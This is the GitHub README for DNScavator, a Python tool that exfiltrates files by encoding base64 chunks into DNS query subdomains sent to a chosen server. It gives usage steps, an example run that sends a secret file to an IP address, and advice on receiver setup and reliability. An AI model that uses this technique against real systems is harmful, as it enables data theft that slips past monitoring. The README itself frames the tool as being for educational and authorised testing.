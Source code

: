 ![image](https://github.com/user-attachments/assets/1bad0b68-7d5d-4fe0-b5c2-8106a6ff9189)


# dnscavator
# DNScavator - DNS Data Exfiltration Tool

This Python script, `dnscavator.py`, is a tool for exfiltrating data via DNS queries. It splits a specified file into chunks, base64 encodes each chunk, and sends them as DNS queries to a designated DNS server.  The data is encoded within the subdomain part of the DNS query.

## Disclaimer

This tool is provided for educational and ethical testing purposes only. Using this tool for unauthorized data exfiltration is illegal and unethical. The author is not responsible for any misuse of this tool.

## Features

*   File chunking: Splits the input file into smaller chunks suitable for DNS payloads (approximately 250 bytes).
*   Base64 encoding: Encodes each chunk using Base64 for safe transmission within DNS queries.
*   DNS query generation: Constructs DNS queries with the encoded data in the subdomain.
*   UDP transport: Sends DNS queries over UDP.
*   User-friendly interface: Prompts the user for the file path and DNS server IP address.
*   ASCII art banner: Displays a stylized banner upon execution.

## Requirements

*   Python 3.x

## How to Use

1.  **Clone the repository (optional):** If you downloaded the code as a zip file, extract it.

2.  **Run the script:** Open a terminal or command prompt, navigate to the directory containing `dnscavator.py`, and execute it using:

    ```bash
    python dnscavator.py
    ```

3.  **Enter file path:** The script will prompt you to enter the path to the file you want to exfiltrate.  Make sure the file exists and you have read permissions.

4.  **Enter DNS server IP:**  Enter the IP address of the DNS server where you intend to send the data.  **Important:** This DNS server must be configured to receive and handle these queries.  A standard public DNS server will likely not work as the queries are malformed and will be rejected.  You will typically need a custom DNS server setup for receiving the data.

5.  **Data exfiltration:** The script will then split the file into chunks, encode them, and send them as DNS queries to the specified server. The progress and any errors will be displayed in the terminal.

## Example

python dnscavator.py
Enter the path to the file you want to send: my_secret_data.txt
Enter the IP address of the DNS server to send data to: 192.168.1.100

Starting data exfiltration...
File: my_secret_data.txt
DNS Server: 192.168.1.100

Sent chunk to 192.168.1.100
Sent chunk to 192.168.1.100
...
Data exfiltration complete!


## Important Considerations

*   **DNS Server Setup:**  This tool requires a specially configured DNS server to receive and process the DNS queries.  Standard DNS servers will likely ignore or reject these queries.  You will need to set up your own DNS server to capture the encoded data.
*   **Data Reconstruction:**  The receiving DNS server will need to reconstruct the original file from the received DNS query data.  This is not included in this script.
*   **DNS Payload Size:**  DNS has size limitations. This script uses a chunk size that is generally safe, but you might need to adjust it depending on your DNS server configuration.
*   **Network Conditions:**  Network issues may cause some chunks to be lost.  Error handling and retransmission mechanisms could be implemented for more robust exfiltration.
*   **Ethical Use:**  Use this tool responsibly and ethically.  Unauthorized data exfiltration is illegal.

## Author

4rk4n3

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.  (Add a LICENSE file if you wish to use an open-source license).
